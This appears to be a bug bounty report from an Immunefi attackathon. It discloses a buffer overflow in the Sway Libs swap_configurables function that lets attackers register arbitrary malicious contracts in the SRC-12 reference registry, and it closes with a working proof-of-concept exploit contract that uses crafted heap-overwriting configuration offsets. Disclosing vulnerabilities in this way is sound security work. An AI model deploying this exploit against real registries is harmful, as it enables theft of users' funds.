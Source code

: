 
# Sway-lib/SRC-12: Buffer overflow in swap_configurables allows for verifying arbitrary code/config, loss of funds

Submitted on Thu Jul 04 2024 00:13:08 GMT-0400 (Atlantic Standard Time) by @LonelySloth for [Attackathon | Fuel Network](https://immunefi.com/bounty/fuel-network-attackathon/)

Report ID: #32812

Report type: Smart Contract

Report severity: Low

Target: https://github.com/FuelLabs/sway-libs/tree/0f47d33d6e5da25f782fc117d4be15b7b12d291b

Impacts:
- Verifying aribtrary code/configuration in registry
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Buffer Overflow leading to arbitrary heap manipulation

## Description
# NOTE: DO NOT ESCALATE UNTIL CHANGES WINDOW IS COMPLETE (2024/7/5?)

## Brief/Intro

The standard SRC-12 defines a way for verifying a certain contract is in fact a version of a giver original bytecode, with certain configurable values set. However, the `swap_configurables` function in the Sway Libs, has a buffer overflow bug that allows for arbitrary writes to the contract heap. Consequently the reference implementation of SRC-12 can be tricked into registering contracts with arbitrary configurations/code combinations. Any contract that relies on SRC-12 can be tricked into trusting arbitrary contracts, leading to loss of funds.


## Vulnerability Details

The function `swap_configurables` in `sway-libs/bytecode` accepts as input a vector containing a bytecode and a vector containing the "configurables", i.e. data that must be overwritten in the original bytecode.

However, the implementation uses raw pointers, **without any check of boundaries of the original bytecode vector**. That means a configuration vector with offsets/lengths in excess of the original bytecode vector will write on **arbitrary memory**.

```
let (offset, data) = configurables.get(configurable_iterator).unwrap();

        // Overwrite the configurable data into the bytecode
        data
            .ptr()
            .copy_bytes_to(bytecode.ptr().add::<u8>(offset), data.len());
```

In particular, all the heap space allocated prior to the allocation of the bytecode vector can be overwritten by that function.

While this is in general a serious issue to can affect any contract using the library, the impact results in direct exploits in the **reference implementation for SRC-12**.

The SRC-12 standard allows for calls to `register_contract` with arbitrary configuration vectors. The vector is then passed directly to the vulnerable `swap_configurables` implementation.

That means a carefully crafted configurations vector can overwrite all heap memory in the SRC-12 contract, leading to registering arbitrary contracts with arbitrary fake configurations. This can be obtained with a configuration vector that has at least two elements:

- First: a complete overwrite of the entire bytecode, with offset 0, and the data being an exact copy the original bytecode template.
- Second: **a complete overwrite of the configuration vector itself**. The offset and pointers for each element can be changed to arbitrary data, including pointing to data in the heap of the calling contract.

*The end result is that regardless of the code in the contract, the verification will work, and the SRC-12 registry will insert the into it's map using as key **the fake key provided by the attacker**.*

Any other contract using the registry to either validate a certain contract, or look up the contract corresponding to a certain set of parameters can be **tricked into trusting contracts with arbitrary malicious code**.

In particular, it's easy to register a contract that has bytecode corresponding to a minimal proxy to any malicious code.

## Impact Details

In general, any contract calling `swap_configurables` can be vulnerable to arbitrary memory corruption, in particular if the configuration vector is at least in part provided by a caller.

**In particular the reference SRC-12 implementation is completely vulnerable to registering arbitrary contracts with arbitrary configuration.**

**Consequently any contract that relies on an SRC-12 registry to verify contracts it can trust is vulnerable to trusting arbitrary malicious contracts.**

A very likely exploit scenario is in a registry for AMM pools (I'm thinking Uniswap Pools equivalent) that is queried for the pool corresponding to a pair of tokens and a given fee.

The attacker is able to register arbitrary malicious contracts as "Pools". This will lead both users and other contracts to send funds to malicious contracts controlled by the attacker.

        
## Proof of concept
## Proof of Concept

As the Rust SDK seems to panic with ABI's containing vectors, I wrote the auxiliary contract as follows, that performs the attack on the reference SRC-12 implementation:

```
abi TestContract {
    #[storage(read, write)]
    fn do_test(child_contract: ContractId, registry: ContractId);
}

impl TestContract for Contract {
    /*
        child_contract -- the fake contract we will register in the factory
        registry -- the target SRC-12 factory/registry contract

    */
    #[storage(read, write)]
    fn do_test(child_contract: ContractId, registry: ContractId) { 

        let mut length = asm(
            load_target: child_contract,  
            length,
        
        ) {
            csiz length load_target;
            length
        };
        // length of the fake child contract
        log(length);

        let factory = abi(MyRegistryContract, b256::from(registry));

        let mut data : Vec<u8> = Vec::with_capacity(length);       
        let mut i = 0;
        while i<length { data.push(0xff); i+=1; };

        factory.set_bytecode(data);

        let factory = abi(SRC12, b256::from(registry));

        let mut data : Vec<u8> = Vec::with_capacity(length);       
        let mut i = 0;
        while i<length { data.push(0x41); i+=1; }; // ASCII 'A' over and over.
        // our test vector is just a binary with 104 times the letter 'A'.

        let mut v: Vec<(u64, Vec<u8>)> = Vec::new();

        v.push((0, data)); // first entry in the fake configuration. this will
        // overwrite the whole contact to match the bytecode.
        // however, we will change the variable configuration later,
        // forcing the registry to insert into the storage map using a different key.

        let mut data : Vec<u8> = Vec::with_capacity(length);       
        let mut i = 0;
        while i<128 { data.push(0x00); i+=1; }; // zero out a bunch of heap space
        // note that instead we could have put arbitrary values in the
        // two entries of "configuration", by changing their pointers
        // to point to data in the calling contract's (this) heap.
        // however this should be enough to demonstate the impact in a PoC.
        
        // depending on compiler version etc, offset might change.
        let offset = 0x488;
        v.push((data.len() + length + offset, data)); 

        // register into the factory/registry
        assert(factory.register_contract(child_contract, Some(v)).is_ok());

        let factory = abi(SRC12_Extension, b256::from(registry));

        let mut fakevec: Vec<(u64, Vec<u8>)> = Vec::new();
        fakevec.push((0, Vec::new()));
        fakevec.push((0, Vec::new()));
        
        let c = factory.get_contract_id(Some(fakevec)).unwrap();
        assert(c == child_contract);
    }    
}

```

I used as the "malicious contract" a file containing 104 times the letter "A" in ASCII (`0x41`).

The bytecode template used is a vector containing 104 times the byte `0xff`.

In the example, the registry accepts the malicious contract as corresponding to the "fake configuration" `[(0, []), (0, [])]`.

Other arbitrary configurations can be used, but I believe this already proves the point.